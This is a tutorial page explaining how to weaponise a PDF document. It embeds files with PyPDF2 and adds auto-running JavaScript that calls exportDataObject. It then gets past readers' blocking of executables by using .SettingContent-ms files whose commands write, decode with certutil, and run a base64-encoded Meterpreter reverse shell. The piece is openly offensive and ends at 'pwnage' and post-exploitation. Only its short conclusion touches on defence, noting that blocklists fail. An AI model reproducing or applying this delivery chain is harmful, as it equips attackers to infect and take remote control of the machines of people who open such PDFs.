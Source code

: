 # docs


***PDF Embedding Attacks***


PDF, or Portable Document Format, is an incredibly complex file format, governed by many standards and semi-standards. Like HTML and CSS, it was primarily designed for document layout and presentation. Also like HTML and CSS, it has been augmented with a JavaScript engine and document API that allows programmers to turn PDF documents into applications - or vehicles for malware.


/// Embedding Files in PDF Documents

It’s very easy to embed any kind of file in a PDF document. Every document includes the EmbeddedFiles name tree, along with support for collections of files, known as portfolios.

Most PDF libraries provide support for this; we’ll examine PyPDF2, which supports everything we need and is pure Python.

PyPDF2’s PdfFileWriter provides a method called addAttachment which takes a name and some bytes and embeds them as a file in the PDF (docs).

This is how malware is usually concealed in a PDF document - as an embedded file.
Opening Files from PDF Documents

Now that we have a payload embedded in a PDF document, we need to actually open it. The basic method for this is to also embed a script in the PDF document. In our case, we want to add a document level script. This script will execute as soon as the PDF is opened.

Fortunately, PyPDF2 also supports this! We can simply add a JavaScript object with the method addJS, and that JavaScript will be registered to run on the PDF opening.

Our JavaScript payload is pretty simple: we just add a single call to exportDataObject, a function provided by the PDF reader. This function takes an object with 2 parameters:

    cName, the name of the embedded object, and
    nLaunch, an instruction as to what the PDF reader should do with the exported object

nLaunch is just an integer, and it has three valid values:

    Prompt the user for a path and save the file there
    Prompt the user for a path, save the file, and ask the operating system to open it
    Pick a temporary location, save the file there, and ask the operating system to open it

That last option sounds great for malware. Assuming we embedded a file called myExploit.exe, we would add the following JavaScript:

this.exportDataObject({
    cName: "myExploit.exe",
    nLaunch: 2,
});

and it would run as soon as the PDF was opened, right? Well, not quite. Unfortunately, there’s a bit more to it; Adobe Reader (and most other readers) will prevent the launch of common executable files. For example, .exe, .js, .vba, and .bat files cannot be opened.
Evading the Blacklist

There are many ways to evade the blacklist, such as Microsoft Word documents with malicious macros embedded in them (read more), but recently, researchers discovered that another kind of file could be used: .SettingContent-ms. As explained by the SpecterOps team, these are just XML documents pointing to specific places in the Windows 10 settings GUI. However, they contain a field called DeepLink which can contain any arbitrary executable which will be run when the SettingsContent-ms file is executed.
Deploying a Payload

Let’s bring this all together. How would we use this in a real attack?

There are a few steps we need to perform in order to get this attack working.
1: Create a Payload

There are many great ways of creating effective payloads. In this case, I’ll assume you have a payload already; my payload of choice is a Meterpreter reverse shell encoded with some type of cloaker.
2: Encode the Payload in Base64

We can use certutil.exe -encode InputFile EncodedFile on Windows or base64 input > output on Linux to encode and decode files with Base64. This will let us more readily insert it where it is needed.
3: Embedded Files

We need to run 3 commands, so we’ll use the above method to embed three files. They will all be valid SettingContent-ms XML, differing only in the DeepLink node.

    PutFile.SettingContent-ms which will echo the Base64 encoded payload to disk at a known path (echo b46c827y... > %APPDATA%\evil.b64).
    Decode.SettingContent-ms which will decode the Base64 encoded payload into an EXE ( certutil -decode %APPDATA%\evil.b64 %APPDATA%\evil.exe)
    Execute.SettingContent-ms which will actually run that file. (%APPDATA%\evil.exe)

4: Scripts

Now, we need a single script which will run all of these:

var files = ["PutFile", "Decode", "Execute"];
for (var i = 0; i < files.len; i++) {
	this.exportDataObject({
		cName: files[i] + ".SettingContent-ms",
		nLaunch: 2,
	});
}

5: Pwnage!

Now we have our Metasploit payload running on the target! Congratulations, time to move into post-exploitation.
Alternative Methods

Another method would be to use Reflective PE Injection, converting a PowerShell process into the process for our executable. To learn more about this, check out this post.
Conclusion

PDF files are extremely complex, and the applications that read them tend to be old and full of cruft, designed without security in mind. A black-listing method will never be effective in eliminating all dangerous files, as we can see here. This technique requires no exploits; we just ask the OS to run a file for us and it does so!

Last updated Jun 8 2023 
